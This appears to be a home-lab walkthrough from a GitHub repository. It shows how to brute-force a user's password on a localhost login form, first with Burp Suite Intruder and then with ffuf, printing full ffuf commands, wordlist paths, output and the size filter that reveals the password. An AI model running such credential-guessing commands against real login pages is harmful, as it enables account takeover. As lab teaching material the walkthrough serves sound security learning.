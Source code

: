 # Attacking Authentication - Brute Force

- We have a login form with the user account named "Jeremy".

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/cb006310-f3a7-4490-a15f-08002bf63320)


- We need brute-forcing to crack the password of a user named "Jeremy"
- For this let's intercept the request to the Burp suite.

![image](https://github.com/thesinghsec/WebVulnLab/126919241/27555f00-a3f2-4dc1-849d-2eb7dc32bc52)

- After sending a request to the intruder we selected the payload password parameter by clicking on Add.
- Next step is to add a wordlist to start the brute-forcing the password on the user "Jeremy"

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/504493fe-d6c9-4faf-bae3-d5ab3068574e)

- On adding the wordlist as the payload of passwords we selected Start attack.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/de3fdf99-75e2-468b-9530-bb236ef24812)

- There is a page length difference in the result hope we have got our password successfully

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/b9e7f512-6980-4eb9-a09d-3734430f205e)

- On trying with username `jeremy` and password `letmein` we got successfully logged in.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/229f2a26-a60f-43ac-ae69-5bd5e7ab2b50)
![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/534c981e-7bc8-4107-9353-f29e1b81bc21)

## Alternate

- To make the process brute-forcing faster we will copy the intercepted request and copy it to a file in the local machine.
- Make a change in copied request by renaming the password parameter to "FUZZ" and saving it.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/1b0d0668-9795-4b3f-9766-1395eef0a1e6)

- Now, we use a tool named "FFUF" to make the brute-forcing process faster.
- Command: `ffuf -request req.txt -request-proto http -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt`

```bash
└─$ ffuf -request req.txt -request-proto http -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost/labs/a0x01.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt
 :: Header           : Referer: http://localhost/labs/a0x01.php
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate
 :: Header           : Sec-Fetch-User: ?1
 :: Header           : Host: localhost
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 :: Header           : Origin: http://localhost
 :: Header           : Sec-Fetch-Dest: document
 :: Header           : Sec-Fetch-Mode: navigate
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Connection: close
 :: Header           : Cookie: PHPSESSID=bcbc6597490163fa9ed394d5f5145dcd
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Sec-Fetch-Site: same-origin
 :: Data             : username=jeremy&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 1808, Words: 494, Lines: 47, Duration: 20ms]
    * FUZZ: letmein

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 20ms]
    * FUZZ: qwerty

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 48ms]
    * FUZZ: password

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 47ms]
    * FUZZ: baseball

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 48ms]
    * FUZZ: superman

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 48ms]
    * FUZZ: zxcvbnm

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 48ms]
    * FUZZ: 12345
------------snip------------------
[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 12ms]
    * FUZZ: 222333

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 13ms]
    * FUZZ: armani

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 11ms]
    * FUZZ: attack

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 11ms]
    * FUZZ: anhyeuem

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 12ms]
    * FUZZ: zenith

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 11ms]
    * FUZZ: thomas1

[WARN] Caught keyboard interrupt (Ctrl-C)
```

- It is making numerous requests per second we need to filter out the "size: 1814" for getting clean results.
- Command: `ffuf -request req.txt -request-proto http -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt -fs 1814`

``` bash
└─$ ffuf -request req.txt -request-proto http -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt -fs 1814

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost/labs/a0x01.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt
 :: Header           : Sec-Fetch-User: ?1
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate
 :: Header           : Connection: close
 :: Header           : Cookie: PHPSESSID=bcbc6597490163fa9ed394d5f5145dcd
 :: Header           : Sec-Fetch-Mode: navigate
 :: Header           : Sec-Fetch-Dest: document
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Origin: http://localhost
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Referer: http://localhost/labs/a0x01.php
 :: Header           : Sec-Fetch-Site: same-origin
 :: Header           : Host: localhost
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 :: Data             : username=jeremy&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 1814
________________________________________________

[Status: 200, Size: 1808, Words: 494, Lines: 47, Duration: 4ms]
    * FUZZ: letmein

:: Progress: [10000/10000] :: Job [1/1] :: 3846 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
```
- We successfully cracked the password "letmein".
